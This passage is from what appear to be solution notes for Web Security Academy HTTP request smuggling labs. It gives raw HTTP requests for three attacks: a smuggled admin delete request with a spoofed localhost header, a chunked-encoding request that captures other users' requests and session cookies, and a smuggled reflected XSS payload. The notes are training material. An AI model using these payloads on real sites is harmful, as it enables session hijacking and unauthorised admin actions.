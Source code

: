     GET /admin/delete?username=carlos HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    X-xdGKVD-Ip: 127.0.0.1
    Content-Length: 118
    Content-Type: application/x-www-form-urlencoded

    x=

### LAB: Exploiting HTTP request smuggling to capture other users' requests
Send this request:

    POST / HTTP/1.1
    Host: 0aa3009003f7bb148056802200d60035.web-security-academy.net
    Cookie: session=blqqdgnPgBZvdOZN4FKLE6Vp9DQ4Pf3K
    Content-Length: 337
    Transfer-Encoding: chunked
    Content-Type: application/x-www-form-urlencoded

    0

    POST /post/comment HTTP/1.1
    Host: 0aa3009003f7bb148056802200d60035.web-security-academy.net
    Cookie: session=bEmHGZs0M8tiSA5g8KddtKrxf9rzGoRC
    Content-Length: 650
    Content-Type: application/x-www-form-urlencoded

    csrf=Cr7RjsnauMLDABIfuvd9CgFT1zBtyMHX&postId=8&name=123&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=

When the victim send any request to the web, it is appended to the comment and appeared on the blog page. Retrieve there cookie to gain access to the account.

### LAB: Exploiting HTTP request smuggling to deliver reflected XSS
Found the reflected XSS at:

    <input required type="hidden" name="userAgent" value="">

Send this request to confirm the XSS:

    GET /post?postId=4 HTTP/2
    Host: 0a9f00fd04e2f0ba808cc617006b0005.web-security-academy.net
    User-Agent: "><script>alert(1)</script>

Now send this request to perform the HTTP smuggling attack:

    POST / HTTP/1.1
    Host: 0a9f00fd04e2f0ba808cc617006b0005.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 213
    Transfer-Encoding: chunked

    0

    GET /post?postId=4 HTTP/1.1
    Host: 0a9f00fd04e2f0ba808cc617006b0005.web-security-academy.net
    User-Agent: "><script>alert(1)</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10
